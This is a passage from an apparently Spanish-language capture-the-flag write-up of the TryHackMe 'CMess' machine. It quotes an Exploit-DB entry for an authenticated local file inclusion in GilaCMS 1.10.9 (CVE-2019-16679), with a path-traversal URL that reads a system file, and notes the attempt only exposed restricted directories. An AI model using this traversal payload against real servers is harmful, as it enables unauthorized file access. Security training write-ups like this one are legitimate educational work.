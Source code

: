```bash
cmess # ❯ cat 47407.txt                            
# Exploit Title: Authenticated Local File Inclusion(LFI) in GilaCMS
# Google Dork: N/A
# Date: 04-08-2019
# Exploit Author: Sainadh Jamalpur
# Vendor Homepage: https://github.com/GilaCMS/gila
# Software Link: https://github.com/GilaCMS/gila
# Version: 1.10.9
# Tested on: XAMPP version 3.2.2 in Windows 10 64bit,
# CVE : CVE-2019-16679

*********** *Steps to reproduce the Vulnerability* *************

Login into the application as an admin user or equivalent user and go the
below link

http://localhost/gilacms/admin/fm/?f=src../../../../../../../../../WINDOWS/system32/drivers/etc/hosts
```

intente explotar dicha vulnerabilidad pero solo pude acceder a directorios que antes no estaba permitido

![Untitled](/assets/images/2022-02-12-writeup-maquina-thm-cmess/Untitled%205.png)
